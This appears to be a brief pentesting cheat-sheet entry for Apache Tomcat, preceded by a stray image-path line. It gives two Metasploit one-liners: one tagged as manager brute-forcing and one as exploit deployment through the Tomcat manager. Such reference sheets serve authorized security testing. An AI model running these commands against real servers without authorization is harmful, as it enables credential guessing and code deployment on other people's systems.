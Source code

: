 # Tomcat 

% tomcat

## tomcat manager bruteforce
#platform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 
```
msfconsole -x "use auxiliary/scanner/http/tomcat_enum"
```

## tomcat deploy
#platform/linux #target/remote #cat/ATTACK/EXPLOIT 
```
msfconsole -x "use exploit/multi/http/tomcat_mgr_deploy"
```
